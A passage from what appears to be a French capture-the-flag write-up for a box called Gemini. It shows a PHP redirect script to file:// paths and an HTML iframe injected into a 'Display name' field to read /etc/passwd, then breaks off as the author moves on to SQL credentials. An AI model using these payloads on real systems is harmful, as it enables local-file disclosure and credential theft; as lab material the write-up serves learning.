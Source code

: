J'ai ensuite tenté d'utiliser du code Javascript pour que le navigateur ouvre /etc/passwd (*document.href = 'file:///etc/passwd'*), toujours sans résultat.  

Enfin j'ai créé le script *index.php* suivant qui redirige vers le fichier */etc/passwd* et lancé un serveur web PHP minimaliste avec *php -S 0.0.0.0:8888* :  

```php
<?php
$filename = $_GET["file"];
header("Location: file://$filename");
?>
```

et en injectant le code HTML suivant dans le *Display name* :  

```html
<iframe height="1000" width="1000" src="http://192.168.2.240:8888/?file=/etc/passwd"></iframe>
```

On obtient enfin le fichier attendu :  

![Gemini CTF /etc/passwd dump](https://github.com/devl00p/blog/raw/master/images/gemini_etc_passwd.png)

Je trouve facilement le fichier où sont stockés les identifiants SQL de l'appli (avec le Github c'est pas trop compliqué) :  
